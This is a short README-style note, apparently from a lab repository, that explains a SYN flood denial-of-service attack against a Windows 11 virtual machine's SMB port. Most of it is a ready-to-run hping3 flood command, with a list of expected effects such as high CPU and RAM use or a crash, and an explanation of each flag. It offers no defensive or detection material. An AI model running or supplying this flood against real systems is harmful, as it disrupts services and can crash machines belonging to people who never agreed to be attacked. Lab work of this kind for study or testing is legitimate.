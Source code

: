# SYN Flood Attack (CPU/RAM Stress)

## Effects:
- High CPU and RAM usage on the Windows 11 VM.
- If SMB (file sharing) is enabled, the system may slow down or crash.

## Command:
```bash
sudo hping3 -S --flood -p 445 <Target-IP>
```

## Explanation:

- `-S` → Sends SYN flag, initiating a TCP handshake(three way handshake).
- `--flood` → Sends packets continuously.
- `-p 445` → Targets Port 445 (SMB - Windows File Sharing).
